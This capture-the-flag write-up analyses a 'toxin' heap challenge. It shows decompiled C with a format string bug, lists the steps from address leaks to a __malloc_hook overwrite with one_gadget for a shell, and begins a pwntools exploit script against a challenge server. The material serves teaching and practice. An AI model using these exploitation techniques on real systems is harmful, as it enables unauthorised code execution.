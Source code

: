 
##### `search` function


This function allow us to search for a chunk from the global pointer, but there's a catch with `printf` here.

```C
int search_toxin()
{
  int i; // [rsp+4h] [rbp-Ch]
  char s; // [rsp+Ah] [rbp-6h]

  puts("Time to search the archives!");
  memset(&s, 0, 6uLL);
  printf("Enter search term: ");
  read(0, &s, 5uLL);
  for ( i = 0; i <= 2; ++i )
  {
    if ( toxins[i] && !strcmp(&s, (const char *)toxins[i]) )
      return printf("Found at index %d!\n", (unsigned int)i);
  }
  printf(&s);
  return puts(" not found.");
}
```

Given the search string, it searches for the chunk(drink) allocated, then it prints the pattern given without any specified, which made this suspectible to format string vulnerability.

# Exploitation

The methodology to exploit this is listed as follows:-

* Leak LIBC and ELF address from the format string vulnerability from the `search_toxin` function.
* Allocate a chunk.
* Free that chunk
* Edit that chunk with the address of the `toxinfreed` - 0x13, which pointed towards a valid `free`'d chunk pointer.
* Then do one allocation for returning the first free'd pointer, then for third allocation it'll return the `toxinfreed` address.
* Overwrite the `toxins` array's first index with a pointer to the `__malloc_hook` and then null out the other chunks in `toxins` array.
* Edit the chunk `0` since it was overwritten with the `___malloc_hook`, overwrite it with `one_gadget`
* Do one more allocation, eventually calling the `__malloc_hook`, resulting in the `one_gadget` jump and have a shell.

Moving on, we make the utlity functions:-


```py
from pwn import *

p = remote("159.65.84.169", 31307)
elf = ELF("toxin")
libc = elf.libc

def alloc(idx, size, content):
	p.sendlineafter("> ", "1")
	p.sendlineafter(": ", str(size))
	p.sendlineafter(": ", str(idx))
	p.sendafter(": ", content)

def edit(idx, content):
	p.sendlineafter("> ", "2")
	p.sendlineafter(": ", str(idx))
```